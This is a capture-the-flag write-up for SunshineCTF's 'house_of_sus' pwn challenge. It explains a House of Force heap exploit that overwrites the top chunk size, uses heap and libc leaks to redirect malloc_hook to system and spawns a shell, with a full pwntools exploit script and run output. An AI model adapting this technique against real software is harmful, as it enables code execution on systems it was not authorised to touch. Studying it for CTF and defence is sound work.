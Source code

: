 
## Level: Easy

### Challenge
#### TL;DR

create a chunk and overwrite the wilderness with a very large number due to an overflow...

this will overlap the target address and resulting in read-what-where, which we can use it to overwrite malloc_hook with system to pop a shell... 
``` 
checksec ./house_of_sus
[*] '/home/4rsp/Downloads/sunshinectf/house_of_sus'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    RUNPATH:    b'.'
    Stripped:   No
    Debuginfo:  Yes
```
> No PIE, Partial RELRO, debuginfo and not stripped...
> what more can you wish for from a binary 😅
  
![menu](https://github.com/user-attachments/assets/24c5f22c-227d-488b-9446-7efe84d7e67e)

> amongus... cool menu

Fortunately, we have free leaks on the main menu and option 2 (heap and libc)...

Also there is an overflow in option 3 so we can create a chunk then overwrite the wilderness (the top chunk's size) with a very large number (e.g. -1)

this will make sure that malloc won't use `mmap` for any further allocations because it will think the top chunk has always *enough* space..

and this will result in overlapping target address (read-what-where)...

Here is my approach with helpful heap snippets to improve visuality:


![newwilderness](https://github.com/user-attachments/assets/47fb63ae-68a5-46e8-b76c-bf89da5d1922)

> Use the overflow in option 3 to overwrite the wilderness with a very large number.

![overlapsize](https://github.com/user-attachments/assets/2cb9e4e7-8221-4398-a75d-f3bbffa74f19)

> Calculate the address of wilderness and the target from the leaks and allocate a chunk with size of target - top_addr - 0x10 # for metadata

![systemoverwrite](https://github.com/user-attachments/assets/f5518ba2-59f8-4808-99ed-6df30c7f0f5e)

> Overwrite malloc_hook pointer (the target address) with system

> > ... and finally call malloc with the address of "/bin/sh" in size to pop a shell

```
[+] Starting local process './house_of_sus_patched': pid 27582
HEAP LEAK: 0x2b3c1660
LIBC LEAK:0x7f75fc244390
malloc_hook: 0x7f75fc5ebc30
binsh: 0x7f75fc3b3d88
[*] Switching to interactive mode
sun{4Re_y0U_th3_!mP0st3r_v3rY_su55!}
/bin/sh: 2: 1: not found
$  
```

Calculating the offset for distances was quite painful until I get the hang of it...

You can read more about house of force in ![here](https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/#house-of-force) and ![there](https://book.hacktricks.xyz/binary-exploitation/libc-heap/house-of-force)

also check out c0nrad's ![video](https://youtu.be/qA6ajf7qZtQ?t=2277) on this challenge and offical (?) ![write-up](https://github.com/SunshineCTF/SunshineCTF-2023-Public/blob/main/Pwn/House_of_Sus/house_of_sus_exp.py) ...


here is my exploit code:

...enjoy

```python
#!/usr/bin/env python

from pwn import *
import time
"""
p = gdb.debug("./house_of_sus_patched", gdbscript='''
    c
''')
"""
p = process("./house_of_sus_patched")

def emergency_meeting(size, response, imposter):
    p.sendline(b"3")
    p.recvuntil(b"tasks >:(\n\n")
    p.sendline(str(size).encode('utf-8'))
    time.sleep(0.5)
    p.sendline(response)
    
    time.sleep(0.5)
    p.sendline(str(imposter).encode('utf-8'))

def do_task():
    p.sendline(b"1")

def report_body(imposter):
    p.sendline(b"2")
    p.recvuntil(b"the seed: ")
    libc_leak = int(p.recvline().strip())
    print("LIBC LEAK:" + hex(libc_leak))
    time.sleep(0.5)
    p.sendline(str(imposter).encode('utf-8'))
    return libc_leak

p.recvuntil(b"joining game: ")

heap_leak = int(p.recvline().strip(), 16)
print("HEAP LEAK: " + hex(heap_leak))

# libc leak thanks to seed in report_body option
p.recvuntil(b"emergency meeting\n\n")
libc_leak = report_body(1)

libc_base = libc_leak - 279440
malloc_hook = libc_base + 4111408
system = libc_base + 324640
binsh = libc_base + 1785224

print("malloc_hook: " + hex(malloc_hook))
print("binsh: " + hex(binsh))

# overwrite the wilderness with "-1"
# so it will overlap the target on the next malloc 
payload = b"A" * 40
payload += p64(0xFFFFFFFFFFFFFFFF)
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(40, payload, 1)

# calculate where the top chunk size (the wilderness) is 
heap_addr = heap_leak + 88 + 4112

# calculate the distance for malloc_hook
# allocate a chunk with a size of to the distance for malloc_hook
distance = malloc_hook - heap_addr - 0x10  # 0x10 for the metadata 
payload = b"B" * 8
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(distance, payload, 1)

# overwrite malloc_hook pointer with system
payload = p64(system)
payload += b"C" * 8
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(30, payload, 1)

# call malloc with "/bin/sh" in size
payload = b'cat flag'
binsh = int(binsh)
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(binsh, payload, 1)

p.interactive()
```

